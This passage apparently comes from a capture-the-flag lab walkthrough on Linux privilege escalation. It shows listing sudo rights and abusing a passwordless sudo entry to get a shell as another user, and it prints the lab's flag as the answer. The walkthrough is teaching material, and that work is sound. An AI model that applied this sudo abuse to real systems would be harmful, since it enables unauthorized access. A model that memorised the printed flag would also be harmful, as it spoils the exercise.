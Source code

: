 Afterward, students need to list the allowed (and forbidden) commands for the invoking user on the spawned target machine with `sudo`, to find that `user1` can execute `/bin/shell-session` as user2 without a password:

Code: shell

```shell
sudo -l
```

```
user1@ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:~$ sudo -l

Matching Defaults entries for user1 on ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:
    (user2 : user2) NOPASSWD: /bin/bash
```

Therefore, students need to abuse this misconfiguration to attain a shell session as `user2`:

Code: shell

```shell
sudo -u user2 /bin/bash
```

```
user1@ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:~$ sudo -u user2 /bin/bash
user2@ng-413848-gettingstartedprivesc-j3rjw-6649d4bcf8-xszvs:/home/user1$ whoami

user2
```

At last, students need to read the flag file "flag.txt", finding it to be `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`:

Code: shell

```shell
cat ~/flag.txt
```

```
user2@gettingstartedprivesc-413848-767c4c8dff-mwwxb:/home/user1$ cat ~/flag.txt

HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```

Answer: `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`

# Privilege Escalation

## Question 2
